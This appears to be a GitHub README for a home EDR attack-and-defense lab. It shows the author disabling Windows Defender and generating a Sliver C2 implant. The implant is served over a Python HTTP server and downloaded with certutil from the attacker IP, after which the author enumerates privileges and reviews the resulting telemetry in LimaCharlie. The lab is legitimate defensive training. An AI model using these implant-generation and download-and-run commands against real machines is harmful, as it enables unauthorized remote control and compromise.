 # EDR-Attack-and-Defense-Lab

In this foundational SOC Home Lab I spun up a Win10 vm as my victim client and disabled Windows Defender EDR. Set up a C2 framework using Sliver for emulating threat-actor behavior by crafting my very own malicious payload. Threw attacks, caught the detections and watched the malicious traffic. Set up automated D&R rules to mitigate these attacks.

Eric Capuano's Guide: https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?utm_campaign=post&utm_medium=web

### Setup:

First I spun up both virtual machines. The attack machine will run on Ubuntu Server, and the endpoint will be running Windows 11. In order for this lab to work smoothly I turned off all the Windows Security solutions (Virus & threat protection, Microsoft Defender Firewall, etc.) on the Windows 11 VM, making it my vulnerable victim machine. I am also going to be installing Sliver on the Ubuntu machine as my primary attack tool, and setting up LimaCharlie on the Windows machine as an EDR solution. LimaCharlie will have a sensor linked to the Windows machine, and will be importing sysmon logs.

### Skills Learned

- Advanced understanding of EDR concepts and practical application.
- Proficiency in analyzing and interpreting network telemetry.
- Ability to generate, deploy, transfer, and execute a Command & Control payload on the Windows endpoint using Sliver.
- Enhanced knowledge of Windows commands to gather information and assess system privileges.
- Familiarization with normal vs. anomalous activity to enhance threat detection capabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Understanding the process of performing hash scans on sites like VirusTotal to identify known malware. As well as understanding false negative results when dealing with a newly crafted payload.
- Detection rule creation and response implementation on a SecOps Cloud Platform such as LimaCharlie.


### Tools Used

- LimaCharlie EDR for endpoint detection and response capabilities,
monitoring and capturing telemetry, creating and applying detection rules.
- Sysmon integrated with LimaCharlie for detailed network logging and event capture on the Windows endpoint.
- VirusTotal used for scanning and analyzing the hash of executables to identify known malware.
- Sliver C2 Server for crafting and deploying a malicious payload.

## Steps

*Ref 1: Windows Security controls off*

![image](https://github.com/user-attachments/assets/415b034b-db82-4da7-bdf9-88b55b2f52c3)

![image](https://github.com/user-attachments/assets/9d6597e1-a266-4ab8-8852-72c1754aeede)

![image](https://github.com/user-attachments/assets/0e89acb1-c5fe-4243-85f5-938961e2f978)

![Disabling WinDefender via Registry Editor](https://github.com/user-attachments/assets/4e244807-80e6-41bd-9445-be3569724400)

#### Now that my Windows machine is vulnerable, it's time to SSH into my Ubuntu AttackBox.

*Ref 2: Using PuTTY to connect via SSH*
![Screenshot 2024-09-02 113412](https://github.com/user-attachments/assets/97f91ab3-c686-439a-b0c2-6c7954162a34)

#### Once in my Ubuntu machine I use the _'sudo su'_ command to temporarily gain root access, navigate to the sliver directory and launch Sliver-server.

*Ref 3: Launching Sliver-server*

![image](https://github.com/user-attachments/assets/bb40665c-01da-4dda-a41b-4d2cfb7b4e79)

Using the command _'generate --http 192.168.247.129 --save /opt/sliver'_, I generate a Command & Control payload executable.

*Ref 3: Generating C2 session payload*

![SLIVER C2 payload GOOD_TWINE](https://github.com/user-attachments/assets/a1d170c5-f92d-4f9b-b112-41a524bf70ec)

![GOOD_TWINE implant](https://github.com/user-attachments/assets/5409a0bf-3760-48b1-a7be-91e6f5fc16c3)

Running the command _'implants'_ above, you’ll see it has created my payload with the random name **GOOD_TWINE**. 
_We will be using this payload to infect the Windows machine in the next step..._

#### I exited Sliver and made sure I was in the sliver directory. 
To download the C2 easily from the Linux VM to the Windows VM I spun up a temporary web server using Python

_'python3 -m http.server 80'_

![image](https://github.com/user-attachments/assets/14db0600-1b15-4087-a406-707710d04588)

#### I switched my attention to the Windows VM and launched an Administrative PowerShell console.
Executing the command _'certutil.exe -f -urlcache http://192.168.247.129/GOOD_TWINE.exe GOOD_TWINE.exe'_ starts the download of my payload.

![Malware Staged 2](https://github.com/user-attachments/assets/8fd84d5e-a28e-48cd-a13f-abc199bb91e3)


![We are In!](https://github.com/user-attachments/assets/299b4831-809b-474f-8e88-d56db49344c5)

#### Now that we are hosting a live session between the two machines, I input the commands _'info' 'getprivs'_ and _'ps -T'_ to check my remote user privileges, information on the victim machine, and see the specific security products used.
_In this case my victim machine is using Sysmon64 and Windows Smart Screen_.

![Inside the Windows machine](https://github.com/user-attachments/assets/0352ae0d-93e0-47cb-ae54-c729b6974974)

![Checking user privs](https://github.com/user-attachments/assets/4bf919a8-2b4f-4892-88e2-3a1a14a2b577)

![Identifying running processes in remote system](https://github.com/user-attachments/assets/a5abe060-f99e-404f-a6fa-2422107eb357)

#### We can see processes like _SeDebugPrivilege_ and _SeImpersonatePrivilege_ are Enabled, which means we are logged in as Admin.
![Implant admin privs on Windows machine](https://github.com/user-attachments/assets/628cf8ab-4473-40b4-9a46-36a155edf91c)


### Now time to go into Lima Charlie to see the noise!

Using my host machine I click the sensors tab, to see that my Windows machine is online.

![LimaCharlie Win11 vm Sensor](https://github.com/user-attachments/assets/683eea85-3abc-4784-878d-6666f4e0c2f7)

We can look inside our LimaCharlie SIEM and see telemetry from the attack. We can identify the payload thats running and see the IP its connected to.

![Unusual NOT signed process hmm](https://github.com/user-attachments/assets/ee04912e-9120-4411-a4f0-007de47cc5f9)
![Network Logs of our attack](https://github.com/user-attachments/assets/3ecf5dd1-1a41-4f31-8aec-ebd87f6debe6)
![Timeline of Execution](https://github.com/user-attachments/assets/dcc8720a-b590-4373-aa7c-9c017b1fa2ca)


We can also use LimaCharlie to scan the hash of the payload through VirusTotal; however, it will yield no results since we just created the brand new payload ourselves!

![Virus NOT Detected](https://github.com/user-attachments/assets/8bea1003-0e8a-4de4-ac38-7e980d2d1379)

### Now to simulate an attack to steal credentials by dumping the LSASS memory. In LimaCharlie we can check the sensors, observe the telemetry, and write rules to detect this common cyber attack.

Part 4 - Blocking an attack

Now instead of simply detection, we can practice using LimaCharlie to write a rule that will detect and block the attacks coming from the Sliver server. On the Ubuntu machine we can simulate parts of a ransomware attack, by attempting to delete the volume shadow copies. In LimaCharlie we can view the telemetry and then write a rule that will block the attack entirely. After we create the rule in our SIEM, the Ubuntu machine will have no luck trying the same attack again.

Part 5 - Tuning false positives

Part 6 - Trigger YARA scans with a detection rule











